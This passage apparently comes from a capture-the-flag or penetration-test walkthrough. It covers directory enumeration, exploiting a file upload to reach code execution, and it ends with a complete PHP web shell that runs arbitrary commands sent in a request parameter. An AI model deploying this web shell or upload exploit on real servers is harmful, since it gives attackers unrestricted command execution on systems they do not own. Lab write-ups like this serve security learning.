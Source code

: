 We don’t have much more info, let’s try to get more juicy directories once we have the login credentials, using **dirbuster**:


![](https://lh5.googleusercontent.com/nVx-IRiyQyM6hPb-Nrw6AoLHdBAPqjUgCTnUDNj9FAsOtgXmi9TUwFSiFmsB_6UXM8y99B8kMZFhU0YR_nlmTVj2pK_l0cqVx-_kEPDjU_Yt2u-KClkCmD-m0IptxZHrMg)


No more juicy directories we found…

Let’s try to upload random files to the server to see how if performs.

I will upload a sample.jpg image and check the path

```shell
/uploaded_files/filename 
```

We know this by checking the robots.txt page (obtained with nMap) that htis directory exists.


![](https://lh6.googleusercontent.com/nqOZvp0Yy-MJI9IJZ3Bt1o5TABLrN4VzgBb5WRzfOydJijEGGWbWCJYYSjJU88zO10BThM59No_T3_rVEuBo_Zb9vXVC19rTmxiqQOzeyYjCXVQKjyj-FlnaMC1G1DrllIxoOLm3)



![](https://lh6.googleusercontent.com/_1z4y6VSGXdjq-g3eklqPacG6YyaHF3d9b_qU_zzXWLaIia0owRQyBOdCXqfbmtc4KNU88_VnRXlSwSNvLP4PWvgKKIED0PYibxw8IBboJwt69laNtkxG02AHsQttzkDR4JKLCfG)


We have managed to upload a new image.

I’ll try to upload a php file to see if we are able to execute remote code: I will upload a simple hello world php file:


![](https://lh5.googleusercontent.com/IY9ngqU9R_8YPGDoVKI_Vq8b-nn2crPE4cCvqt_yDAOKv2DKQpx0i-ZUi0vo-xNElZf2XgJackLksfBgZdSLuApVl1rWK5ZkWjSiTb7o-V0kOBgCWomA1apn24GLK2pnY3e6tfX6)


We have seen that we are able to execute remote code in the server. Let’s upload a **webshell.php** file with a backdoor to execute arbitrary code:

```shell
<?php
if (isset($_REQUEST["cmd"])) {
    echo "&lt;pre>";

    $cmd = $_REQUEST["cmd"];

    exec($cmd, $results);

    foreach ($results as $r) {
        echo $r . "&lt;br/>";
    }

    echo "&lt;/pre>";

    die();
} ?>

```
